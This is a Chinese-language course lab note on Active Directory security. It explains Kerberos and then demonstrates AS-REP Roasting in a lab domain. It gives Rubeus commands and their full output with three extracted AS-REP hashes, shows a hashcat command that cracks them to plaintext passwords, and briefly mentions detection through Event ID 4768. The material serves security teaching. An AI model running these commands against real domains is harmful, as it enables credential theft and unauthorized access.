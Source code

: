 # NTUSTISC - AD Note - Lab(AS-REP Roasting)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=CRVWKo4tnpx3LqxK)

## Background
[第十四章 Kerberos 認證系統](https://www.tsnien.idv.tw/Security_WebBook/chap14/14-4%20Kerberos%20%E8%AA%8D%E8%AD%89%E7%B3%BB%E7%B5%B1%E7%B0%A1%E4%BB%8B.html)
* 簡介：這是一種計算機網路授權協議，簡單說如果在同一個domain底下，想要存取某一個server的某項服務，則要如何驗證該使用者的身分以及授權他使用該項服務的資格?換個角度想，如果不認證會怎麼樣?首先，如果不認證使用者身分，就直接讓授權使用該項服務，則最直觀的攻擊就是DoS，或是駭客可以透過該項服務打到內網$\to$提權$\to$橫向移動$\to$APT，看起來很危險；另外一方面，如果有驗證身分，但通過驗證的人一率給予使用服務的授權，又會怎麼樣?可以利用eavesdropping得到授權的ticket再利用reply attack還是可以偽造身分
* 提醒：Windows Kerberos和MIT Kerberos在實作上有一點不一樣，如果想要知道windows kerberos可以看飛飛的文章[^feifei-ad-kerberos-1][^feifei-ad-kerberos-2]，然後自行比對粘添壽老師的影片
* MIT Kerberos架構：
    ![](https://www.tsnien.idv.tw/Security_WebBook/Security_%E6%8F%92%E5%9C%96/%E5%9C%96%2014-8.png)
    為了防止前面提到的問題，他增加了一個TGS的Server，但純控管tickets的發放，另外在驗證上面也增加了timestamp和請求方的網路位址，這樣就可以防止reply attack，而且短時間內都不需要再進行身分認證，很方便
* Windows Kerberos架構：
    ![](https://hackmd.io/_uploads/BkTzOxN1T.png)
* 優點
    > * 主密鑰分配：AS 伺服器除了必須擁有客戶的主密鑰之外，還必須擁有 TGS 的主密鑰；另外，TGS 伺服器也需要擁有所有伺服器的主密鑰。這就是 Kerberos 將所有參與者都稱為 Principal 的主要原因。
    > * 客戶密碼只要輸入一次：客戶端取得通往 TGS 的門票（TicketTGS）之後，在該票的有效期限之內，都可以請求服務，而不需要再輸入密碼來索取門票。
    > * 防禦偽裝攻擊：門票（TicketTGS與 TicketB）上有登錄該票的使用者識別（ID）、工作站位址（AD）、時間戳記（TS）與有效期間（Lifetime）。攻擊者攔截到門票之後，不易在在有效期內偽裝成合法客戶。
    > * 防止重播攻擊：門票有註明時間戳記（T），當攻擊者重播門票時，接收端可以利用時間戳記辨別門票的新舊。


## Lab
### ==AS-REP Roasting==
* 攻擊情境：在Win2016的Server Manager中的Tools可以找到Active Directory User and Computer
    ![](https://hackmd.io/_uploads/H1JCrlEyT.png)
    在一般user的property中，可以看到Account/Account options最底下有一個選項==Do not require Kerberos preauthentication==，這個功能主要是前面提到的對於身分不會認證(1, 2步驟會略過，只執行3-6)，他只會認證後面的ticket
    ![](https://hackmd.io/_uploads/BJidLxV1a.png)
    雖然預設是不勾選，但有兩種情況會打勾
    1. 如果被駭客打進去到最高管理員，當然它會勾選這個功能方便搞事(所有帳號)
    2. 因為windows有分版本，如果要向下兼容各版本之間的認證，則該選項就一定要勾選(這也是為甚麼講師在前面有提到一定要升級AD的舊環境)，這在很古老的系統中常常發生
* 滿足條件：只要前面提到的功能被打開，就可以進行AS-REP Roasting
* 如何攻擊：
    * 自己把Microsoft的document看懂如何pack一個packet，然後自己實作
    * 另一種方式就直接用工具[Rubeus 1.6.4](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)，他可以直接把有勾選該項目的帳號，送出AS-REQ的請求，然後接收AS-REP的回應，並把接收到的tickets以你指定的格式印出來
    * Cheat Sheet:
    ```bash
    $ Rubeus.exe asreproast
    $ Rubeus.exe asreproast /format:hashcat /outfile:out.txt
    ```
---
#### 實際執行
1. Using Rubeus.exe
:::spoiler Result
```bash!
$ Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: AS-REP roasting

[*] Target Domain          : kuma.org

[*] Searching path 'LDAP://WIN-818G5VCOLJO.kuma.org/DC=kuma,DC=org' for AS-REP roastable users
[*] SamAccountName         : reyna.gwendolyn
[*] DistinguishedName      : CN=Reyna Gwendolyn,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\reyna.gwendolyn'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$reyna.gwendolyn@kuma.org:4B08601B0A55BA231BED4333EAA6ED9C$E146006C2F6
      B5EF8D78D4280E646FA601860D754261C28DC48470F2EA99E75DFD03E53F4BAC09BD1BE9697C5918
      C48E5BA6A64D51A550FC6833327EBEF9A0C62F2448BA3CA3AA7D9BD375BF8BE693B1BC199A442053
      AC3A40FA3F29EE3ABFB9B1B1E1C31DDD508FAB7971F1FDCE057D5A4481678511188DB99921762116
      934D04C72071DAACFC6FFA8250380CD9ECECF95CC5702FD7A67AB90F18C299BB9AD8FF4A9325730E
      859F2105F1AF64E170EB118111414CC44D0CDD1199860EF0D99ECD33FB618FEDCFAE96E0DFB75A4D
      9EF3C06C99DBBD9C0A69A344C4C5A65B5B702152081F9

[*] SamAccountName         : henrieta.sabine
[*] DistinguishedName      : CN=Henrieta Sabine,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\henrieta.sabine'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$henrieta.sabine@kuma.org:DEBC5F5111CE6D774625EB3DCC14925A$A91DD569550
      A48219DAC0F53E4114DA7027E073DD6A86EFC83C79206787A84DBF6FC7F4B5168D7CBE65B073A05B
      B13AF1514D32D787948F91E05FF40191B6FE7819B9F5A978377D82B5E9532688B1CF28BBA1370365
      68C110CAB41FEC26D262DC422CB54B678456470AE34F23B6D2CB1597E9565CACD11C1C5F9683408B
      241650007B0E162C40D7694D8F5A5154254E0A54829C7784EB5493DF15812271C3161DD5937B368B
      93406383215D909289E3FE096A10D396EF662C02031E6D4352C6A411EEC38B0A1D02A2E0AB03C86E
      CBF9C07C441C4D5EBD4269400373A2AFAD5879293B856

[*] SamAccountName         : giulietta.moyra
[*] DistinguishedName      : CN=Giulietta Moyra,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\giulietta.moyra'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$giulietta.moyra@kuma.org:11CD5E39C2CEA9695C50826E6FCA66D3$9E2B2F3ED60
      5D93BF02721F921D09DE188F1F7F3BE23907A73B95B30ECB0C1CFF5C68A0E814931A6A839DC1098C
      2F3EF8B0A68492CA16E6CD96C843373581DD8CF14F7F58AE9B63A4717D1E8F7C2AA56DAC959F589C
      1533249CA5BF72BBFC833609A0D958B7B5E692632D3557678B671E65C092494B38FC3840D09E16F4
      1FE8D1BB86FAF16BD3F39E4E8CF8AC07A10FCD20E947D3A496A4204350D1E3B0448DB92AE749F3D0
      7A9D1582677A5958B70DD38E2CDFC914C2848D0F9BC0E78D65AB7F3B9E1B5AFFA53588FBD7FFB297
      357047776932B4EA2405ECB5705418BDE7CB8DBE725BB
```
:::
可以看到他總共吐出了三個hash，分別對應到三個使用者：<font color="FF0000">reyna.gwendolyn, henrieta.sabine, henrieta.sabine</font>，如果仔細對應win2016相對使用者的property會發現的確，這三個user的該選項都有打勾，現在則是利用hashcat之類的工具把hash暴力解開

2. Using Hashcat
可以直接在Kali使用hashcat，不過我是直接在windows上操作，可以參考[^hashcat-instruction]，講解的非常詳細
```bash!
$ hashcat.exe -m 18200 -a 3 ".\Kerberos-AS-REP.txt" -o output.txt
```

Output Result
```bash!
$krb5asrep$23$giulietta.moyra@kuma.org:eb292e4b9e547357db6500d982df775b$2def9955e12f072fdc189adcde61dbff3939f7cfda5c84583c78335edfff1c5d246e3c311b991e26c0ca7afbb97757a2751a521b596e9da9a3ffcbec31205b61e45473cfbff58046f5a9759aa186ebbb90894749b2f0cbd91d6558e8f0750aab7c0b46d8947f843327f9dceb94c4b4043ee902856f3c01493e353c28cd956aaa0c58c6ded536e11855d4584aeed3486e379f91199eb96808631f2b72f0443e637cc66268bc8dd87528daf96b28de8fbccae28aa52b38f5069e5aa2c9b4dd9e21ed77ac30d6602459376a8a791d133f577024c43cae1ac8bd973d39e191ba535c0f660b0e:willow
$krb5asrep$23$reyna.gwendolyn@kuma.org:ef97037a66f7cedcacf9aeae90e8d8cc$930cc1157dfee8d506c728f11184963e4011a0254ea83428aaf529de9c2a10c533ff12c0b6f519aad9c65a7fa6a645e6552f57936001c8b8011bbf1f3f93981bd6126befb0dd74b1df7930336f240f623d1d9e53bbb5e37864559d37ee3f1a0edd319a7252a3b6bab5b50d81967abc630eccb804dd200218b7222914776d71387c2916353c3475426515aaa5b95108b9e9ae68c8ece2dfeeaf7836dd9f3778c49c4090850925332470b9eab9c77c4549237a17f58e41b0b09a1be6a99827f5b14d78a734300bb08056c40a28b6f69fa2c7b72afa7d18d831631b19b7cbcc5a6dc928d66d:edward
$krb5asrep$23$henrieta.sabine@kuma.org:cef1cda05e49376d4749ace914595ea1$43d6d77a9de81c2e1c6a00fd7ea6bbb2dc087e26568ae31ab08f2b6887ccfa427ca59fab8dd7bd69d3c2b13b5f1c4ec2dff56f975940d1096eac8bca440c5adafa49e5e8b57d3cc7fddf83a71fef5353a3e3e2a85a6269a39a007bd5272ef40ba721b30313a2054d684e8efe81b214a79af9e1d5d75b1746070486a0d90e79123d1c881a56d190a7c76f1ad951695faee37f64f7f063fd38f2d7af0476747d10c5d16540c34396a0e752aaa820b4147396829affd62b99de0fa6fd0fba13a5271d5fd8b6484a7e9ef52526d0b6cef84f1ab4c939dc977e967bd12c98ca6fb55508d1a770:therock
```
這三者的密碼就被爆出來了，分別是
giulietta.moyra$\to$willow
reyna.gwendolyn$\to$edward
henrieta.sabine$\to$therock

#### ==How to detect it?==
Event ID: 4768(預設不開，因為在一般中大型公司中，開了這個所收到的event會超多，所以除非做好filter不然一般不開)

## Reference
[^feifei-ad-kerberos-1]:[AD Security - [Day7] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (1) ](https://ithelp.ithome.com.tw/articles/10296583)
[^feifei-ad-kerberos-2]:[AD Security - [Day8] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (2) ](https://ithelp.ithome.com.tw/articles/10297185)
[^hashcat-instruction]:[【教學】密碼恢復工具 Hashcat簡易基本教學(windows7/10)](https://home.gamer.com.tw/creationDetail.php?sn=3669363)
